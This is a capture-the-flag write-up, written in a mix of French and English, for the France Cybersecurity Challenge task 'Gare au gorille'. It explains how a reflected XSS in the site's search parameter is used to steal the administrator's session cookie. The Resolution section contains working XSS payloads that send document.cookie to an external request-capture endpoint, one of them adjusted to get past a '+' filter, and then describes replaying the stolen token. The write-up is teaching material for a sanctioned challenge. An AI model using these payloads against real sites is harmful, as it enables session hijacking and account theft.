# Gare au gorille

> I've built an unpretentious site to store my memes collection!
>
> https://gare-au-gorille.france-cybersecurity-challenge.fr/

## Analysis

On arrive sur un site composé de deux pages : la première est composé d'une collection de memes et d'une input search et la deuxième d'un formulaire de report.

We arrive on a site composed of two pages: the first one is composed of a memes collection and an input search and the second one of a report form.

After a few tries we realize that the site is vulnerable to XSS via this input. With this url
```https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=XSS+attack``` it will display "XSS attack".

En regardant l'activité réseau via l'inspecteur on s'aperçoit qu'il existe un token dans les cookie ("token=xxxxxxxx").

Furthermore the flag page ```https://gare-au-gorille.france-cybersecurity-challenge.fr/flag```tells us "This page is only accessible by the administrator". So this is a test for stealing the administrator cookie.

Now we have all the information to trade!

## Resolution

We create an endpoint on requestbin to retrieve the cookie once the admin has clicked on our malicious link.

And we create our payload:

```
https://gare-au-gorille.france-cybersecurity-challenge.fr?search=<img src=x onerror=document.location.href='//eomtg1jcz48suc3.m.pipedream.net?'+document.cookie>
```

The image is present but no response from the site. Looking at the source code we see that the "**+**" has been replaced by a space. So we rewrite without the "**+**".

```
https://gare-au-gorille.france-cybersecurity-challenge.fr?search=<img src=x onerror=document.location.href='//eomtg1jcz48suc3.m.pipedream.net?'.concat(document.cookie)>
```

That's good, we receive a local response. It only remains to send it to the admin and it's done. We recover the admin token: ```token=O9Mv3sFaQD1UpQRLCXVOCzCi0dXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX```

Now we just have to go to the */flag* page and manually edit the headers of our request to replace our token with the admin's token and we get the FCSC{XXXXXXXXXXXXXXXXX} flag.